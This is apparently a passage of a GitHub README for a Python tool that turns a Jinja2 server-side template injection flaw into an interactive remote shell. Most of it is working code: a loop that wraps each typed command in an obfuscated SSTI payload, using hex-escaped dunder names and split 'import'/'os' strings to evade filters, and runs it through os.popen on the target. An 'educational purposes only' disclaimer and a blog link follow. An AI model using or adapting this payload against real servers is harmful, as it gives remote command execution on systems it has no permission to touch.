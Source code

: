```py
        console.print(Panel("[bold red]No output[/bold red]", title="Command Output", style="bold red"))

def run_shell():
    console.print(Panel("[bold green]Welcome Hacker![/bold green]", style="bold white on black"), justify="center")

    while True:
        try:
            # Styled prompt
            prompt_style = "[bold green]shell@raj$[/bold green] "
            command = Prompt.ask(prompt_style, default="", show_default=False)
            if command.lower() in ["exit", "quit"]:
                console.print(Text("Exiting shell. See you next time!", style="bold red"), justify="center")
                break
            
            # Send payload and get response
            payload = f"{{{{request|attr('application')|attr('\\x5f\\x5fglobals\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fbuiltins\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fim'+'port\\x5f\\x5f')('o'+'s')|attr('popen')('{command}')|attr('read')()}}}}"
            response = send_payload(payload)
            print_response(response.text)
        
        except KeyboardInterrupt:
            console.print(Text("\nInterrupted! Exiting...", style="bold red"), justify="center")
            break
        except Exception as e:
            console.print(Text(f"\nError: {e}", style="bold red"), justify="center")

if __name__ == "__main__":
    run_shell()
```

## Security Disclaimer

This application is intended for educational purposes only. Do not use these techniques on systems without explicit permission. Always practice ethical hacking and responsible disclosure.

## Contributing

Feel free to submit issues or pull requests for enhancements or bug fixes. Contributions are welcome!

## Blog 

- [https://dr34mhacks.github.io/posts/how-to-exploit-ssti/](https://dr34mhacks.github.io/posts/how-to-exploit-ssti/)

## License

This project is licensed under the MIT License

Happy Hunting! 🛡️🔍
